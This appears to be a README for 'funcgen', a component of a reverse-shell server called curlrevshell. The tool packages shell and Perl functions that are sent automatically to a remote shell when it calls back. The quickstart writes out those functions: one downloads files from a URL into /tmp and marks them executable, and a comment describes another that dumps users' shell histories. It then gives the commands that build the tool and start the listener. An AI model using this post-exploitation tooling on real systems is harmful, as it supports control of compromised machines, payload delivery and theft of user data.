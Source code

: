 `-ctrl-i-file`/`-callback-template` Function Bundler
====================================================
Generates a generator which takes one or more directories of shell functions
and other (just perl, for now) scripts and rolls them into a file usable with
[`-callback-template`](../../doc/flags.md#-callback-template) and/or
[`-ctrl-i-file`](../../doc/flags.md#-ctrl-i-file).

Functions can take the form of shell scripts ending in `.sh` or `.subr` or 
Perl scripts ending in `.pl`.  Other languages may be added in the future.
Maybe.

A few shell functions are in the [`./functions`](./functions) directory.  These
are very likely to change.

Try `funcgen -h` for more info.

This all happened because the author got tired of typing `tr '\0' '\n'
</proc/pid/environ | sort -u` over and over.  And because running a Perl script
as a shell function is a neat party trick.

Quickstart
----------
1.  Make a directory and stick some shell functions in it.
    ```sh
    # Directory in which we'll stick our function files.
    mkdir ~/funcs
    
    # We'll make some handy shell functions: one to list processes, another to
    # download tools to /tmp, and a third to dump users' shell histories.
    cat >~/funcs/sf.sh <<'_eof'

    # psod (ps oh dear) lists processes in a nice tree
    # Usage: psod
    function psod { ps awwwfux; }

    # tget downloads a file into /tmp
    # Usage: tget url filename
    function tget {
            if [ -z "$1" ] || [ -z "$2" ]; then
                    echo "Usage: $0 url filename" >&2
                    return 1
            fi
            curl --silent --verbose --location --max-time 60 "$1" > "/tmp/$2" &&
                    chmod 0755 "/tmp/$2";
    }
    _eof

    # We'll also throw in a perl script which a knockoff of netstat -ant but
    # reads /proc/net/tcp itself.
    cat >~/funcs/pant.pl <<'_eof'
    #!/usr/bin/env perl
    # pant is a netstat -ant knockoff which reads /proc/net/tcp itself.
    # Usage: pant
    use strict;
    open my $H, "</proc/net/tcp" or die "Open: $!";
    sub pa {
            return join(".", reverse(map {unpack "C"}
                            split(//, pack("H*", shift)))) .
            ":" .
            unpack("S>", pack("H*", shift));
    }
    while (<$H>) {
            next unless /
                    ^\s+\d+:\s
                    ([0-9A-F]{8}):([0-9A-F]{4})\s
                    ([0-9A-F]{8}):([0-9A-F]{4})\s
                    ([0-9A-F]{2})\s 
                    /x;
            printf "%2s %21s %21s %s\n", $5, pa($1, $2), pa($3, $4);
    }
    _eof
    ```
2.  Make sure you have `funcgen` built and in the right place.  Be in the
    top of the repository (i.e. where
    [`curlrevshell.go`](../../../curlrevshell.go) lives) and
    ```sh
    make tools/funcgen
    ```
2.  Turn the files we just made into a callback template which sends the
    functions to the shell when it connects.
    ```sh
    ./tools/funcgen -o ~/callback.tmpl -t @builtin ~/funcs && ls -l ~/callback.tmpl
    ```
3.  Also turn them into a file sendable with Ctrl+I, for easier iteration.
    ```sh
    ./tools/funcgen -o ~/ctrl-i-file ~/funcs && ls -l ~/ctrl-i-file
    ```
4.  Start curlrevshell to use both files
    ```sh
    make install # If you've not already got it installed
    curlrevshell -ctrl-i-file ~/ctrl-i-file -callback-template ~/callback.tmpl
    ```
5.  Once a shell has connected, there should be a process listing, some other
    info, and the functions `psod`, `tget`, `histories`, and `pss` should
    work.

Quickerstart
------------
1.  Be in the top level of this repo.
    ```sh
    ls curlrevshell.go || echo "In wrong directory" >&2
    ```
2.  Make functiony files and start the server.
    ```sh
    # Make the server and tools
    make && make install
    # Generate files with default functions
    ./tools/funcgen -o ~/callback.tmpl -t @builtin ./tools/src/funcgen/functions
    ./tools/funcgen -o ~/ctrl-i-file               ./tools/src/funcgen/functions
    # Start the server
    curlrevshell -ctrl-i-file ~/ctrl-i-file -callback-template ~/callback.tmpl
    ```
3.  As needed, edit files in [`./tools/src/funcgen/functions`](./functions),
    adding or deleting more when expedient.  When you're ready to send the
    new functions to the shell:
    ```sh
    ./tools/funcgen -o ~/ctrl-i-file ./tools/src/funcgen/functions
    ```
    and Ctrl+I in the shell.  Don't forget to rebuild `~/callback.tmpl` before
    the next shell calls back.
